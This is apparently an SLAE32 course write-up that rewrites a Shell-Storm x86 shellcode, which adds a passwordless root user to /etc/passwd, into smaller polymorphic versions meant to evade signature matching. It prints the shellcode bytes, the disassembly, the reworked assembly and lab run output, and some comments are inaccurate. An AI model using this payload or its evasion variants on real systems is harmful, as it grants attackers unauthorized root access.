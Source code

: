 ```yaml
---
layout: single
title: Shell-Storm Polymorphism
date: 2019-10-12
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
The main goal is
Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching 
- The polymorphic versions cannot be larger 150% of the exisSng shellcode 
- Bonus points for making it shorter in length than original

## Linux/x86 - adds a root user no-passwd to /etc/passwd - 83 bytes 
First shellcode is for add uid 0 gid 0 in /etc/passwd, we start from [this shellcode](http://shell-storm.org/shellcode/files/shellcode-548.php) of 83 bytes and try to realize a new smaller shellcode.<br>
```C
/* Linux x86 shellcode, to open() write() close() and */
/* exit(), adds a root user no-passwd to /etc/passwd */
/* By bob from dtors.net */

#include <stdio.h>

char shellcode[]=
		"\x31\xc0\x31\xdb\x31\xc9\x53\x68\x73\x73\x77"
		"\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74"
		"\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89"
		"\xc3\x31\xc0\x31\xd2\x68\x6e\x2f\x73\x68\x68"
		"\x2f\x2f\x62\x69\x68\x3a\x3a\x2f\x3a\x68\x3a"
		"\x30\x3a\x30\x68\x62\x6f\x62\x3a\x89\xe1\xb2"
		"\x14\xb0\x04\xcd\x80\x31\xc0\xb0\x06\xcd\x80"
		"\x31\xc0\xb0\x01\xcd\x80";

int
main()
{
        void (*dsr) ();
        (long) dsr = &shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        dsr();
}
```
Now we check the Assembly using ndisasm
```
00000000  31C0              xor eax,eax
00000002  31DB              xor ebx,ebx
00000004  31C9              xor ecx,ecx
00000006  53                push ebx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  66B90104          mov cx,0x401
0000001C  B005              mov al,0x5
0000001E  CD80              int 0x80
00000020  89C3              mov ebx,eax
00000022  31C0              xor eax,eax
00000024  31D2              xor edx,edx
00000026  686E2F7368        push dword 0x68732f6e
0000002B  682F2F6269        push dword 0x69622f2f
00000030  683A3A2F3A        push dword 0x3a2f3a3a
00000035  683A303A30        push dword 0x303a303a
0000003A  68626F623A        push dword 0x3a626f62
0000003F  89E1              mov ecx,esp
00000041  B214              mov dl,0x14
00000043  B004              mov al,0x4
00000045  CD80              int 0x80
00000047  31C0              xor eax,eax
00000049  B006              mov al,0x6
0000004B  CD80              int 0x80
0000004D  31C0              xor eax,eax
0000004F  B001              mov al,0x1
00000051  CD80              int 0x80
```
Ok we have some chances here, first the ```close()``` syscall isn't necessary as we saw in the msfvenon adduser payload, next we can clean some eax and edx register xor and change it with the ```mul``` that do the same thing, last we can change the ```push``` and  ```push dword``` instructions with ```mov```. In this case we have a good polymorphism but the shellcode lenght is 107 bytes against the original 86

```
xor ebx, ebx
        xor ecx, ecx
        mov cx, 0x401
        mul ebx                           ; this put 0 in eax and edx
        mov [esp-4], ebx                  ; same as push
        mov dword [esp-8], 0x64777373     ; same as push
        mov dword [esp-12], 0x61702f63    ; same as push
        mov dword [esp-16], 0x74652f2f    ; same as push
        sub esp, 16
        lea ebx, [esp]                    ; same as mov the stack pointer to ebx
        mov al, 0x5
        int 0x80
        xchg ebx, eax                     ; move fd pointer in ebx
        mul edx                           ; this put 0 in eax and edx
        mov dword [esp-4], 0x68732f6e     ; hs/nib/:/::0:0::resU
        mov dword [esp-8], 0x69622f3a     ;
        mov dword [esp-12], 0x2f3a3a30    ;
        mov dword [esp-16], 0x3a303a3a    ;
        mov dword [esp-20], 0x72657355    ;
        sub esp, 20
        lea ecx, [esp]                    ; same as mov the stack pointer to ecx
        mov dl, 0x14
        mov al, 0x4
        int 0x80                    ; exit syscall now, the close syscall isn't necessary
        sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
        int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  107

```
If we leave the ```push``` and  ```push dword``` instructions the lenght is 74 bytes, less than original.

```nasm
       xor ebx, ebx
        xor ecx, ecx
        mov cx, 0x401
        mul ebx                           ; this put 0 in eax and edx
        push ebx                  
        push dword 0x64777373     
        push dword 0x61702f63    
        push dword 0x74652f2f    
        lea ebx, [esp]                    ; same as mov the stack pointer to ebx
        mov al, 0x5
        int 0x80
        xchg ebx, eax                     ; move fd pointer in ebx
        mul edx                           ; this put 0 in eax and edx
        push dword 0x68732f6e             ; hs/nib/:/::0:0::resU
        push dword 0x69622f3a             ;
        push dword 0x2f3a3a30             ;
        push dword 0x3a303a3a             ;
        push dword 0x72657355             ;
        lea ecx, [esp]                    ; same as mov the stack pointer to ecx
        mov dl, 0x14
        mov al, 0x4
        int 0x80                    ; exit syscall now, the close syscall isn't necessary
        sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
        int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  74

```